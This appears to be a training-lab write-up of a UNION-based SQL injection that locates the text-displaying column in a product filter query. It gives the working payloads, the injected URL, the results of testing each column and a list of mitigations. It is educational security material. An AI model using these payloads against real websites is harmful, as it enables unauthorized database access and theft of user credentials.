

# Lab 08: SQL injection UNION attack, finding a column containing text

## Category
SQL Injection - UNION-based (Text Column Identification)

## Vulnerability Summary
The website's product filtering feature contains a SQL injection vulnerability that allows attackers to identify which column in the query result can display text data. By using UNION SELECT with a known string value in different column positions, the application reveals which column accepts text input. This reconnaissance step is crucial for planning data exfiltration attacks where string data (usernames, passwords) needs to be displayed.

## Steps to Reproduce
1. Navigate to the e-commerce website's product category filter.
2. Determine the number of columns using NULL injection (3 columns identified).
3. Inject a known text string in each column position to find which accepts text:
   - Test column 1: `'+UNION+SELECT+'byUCmd',NULL,NULL--` (may fail if column is numeric)
   - Test column 2: `'+UNION+SELECT+NULL,'byUCmd',NULL--` (success if text displays)
   - Test column 3: `'+UNION+SELECT+NULL,NULL,'byUCmd'--` (may fail if column is numeric)
4. Observe which injection causes the string to appear in the page response.
5. The lab shows column 2 accepts text data (string 'byUCmd' appears in response).
6. Verify successful exploitation by checking that the injected string is visible on the page.



## Technical Root Cause
The vulnerability stems from improper handling of user input in SQL query construction:

- **Unsanitized Input:** User input from the category filter is directly concatenated into SQL queries.
- **Missing Parameterization:** The application does not use parameterized queries or prepared statements.
- **UNION Operator Exploitation:** The UNION operator allows combining results from multiple SELECT statements.
- **Data Type Disclosure:** The application reveals column data type information through successful/failed query execution.
- **Visible Output:** Injected text appears in the HTML response, confirming the vulnerable column.
- **No Input Validation:** The application accepts SQL operators and special characters without validation.

### Payload Used
```
'+UNION+SELECT+NULL,'byUCmd',NULL--
```

URL-encoded payload in category filter:
```
/filter?category='+UNION+SELECT+NULL,'byUCmd',NULL--
```

How it works:
- The original query likely looks like: `SELECT * FROM products WHERE category = 'input' AND released = 1`
- The injection transforms it to: `SELECT * FROM products WHERE category = '' UNION SELECT NULL, 'byUCmd', NULL--' AND released = 1`
- The `'` closes the category string value.
- The `UNION SELECT NULL, 'byUCmd', NULL` attempts to inject a text string in the 2nd column.
- If the column accepts text, the string appears in the page output.
- If the column expects a different data type, a database error occurs.
- The `--` comments out the rest of the original query.

### Column Testing Process
| Attempt | Payload | Result |
|---------|---------|--------|
| 1 | `'+UNION+SELECT+'byUCmd',NULL,NULL--` | Error (column 1 may be numeric) |
| 2 | `'+UNION+SELECT+NULL,'byUCmd',NULL--` | Success (column 2 accepts text) |
| 3 | `'+UNION+SELECT+NULL,NULL,'byUCmd'--` | Error (column 3 may be numeric) |

## Impact
- **Reconnaissance Enablement:** Identifying text columns is essential for data exfiltration planning.
- **Foundation for Further Attacks:** Once text columns are known, attackers can extract usernames, passwords, and other string data.
- **Database Structure Disclosure:** Reveals information about column data types in the query result.
- **Data Breach Risk:** Enables subsequent attacks to extract sensitive textual data.
- **Compliance Violation:** SQL injection vulnerabilities violate security standards (OWASP Top 10, PCI-DSS).
- **Reputation Damage:** Public disclosure of SQL injection vulnerabilities affects user trust.

## Mitigation
1. **Parameterized Queries:** Use prepared statements with parameterized queries for all database operations.
2. **Input Validation:** Implement strict input validation allowing only expected category values.
3. **Whitelist Approach:** Use a whitelist of valid category names instead of accepting raw input.
4. **Error Handling:** Implement generic error messages that don't reveal database structure information.
5. **Least Privilege:** Database accounts should have minimal permissions required for application function.
6. **ORM Usage:** Consider using Object-Relational Mapping (ORM) frameworks that handle SQL safely.
7. **Web Application Firewall:** Deploy WAF rules to detect and block UNION-based SQL injection attempts.
8. **Regular Security Testing:** Conduct periodic penetration testing and code reviews for SQL injection.

---
*Lab completed on: 2026-03-08*
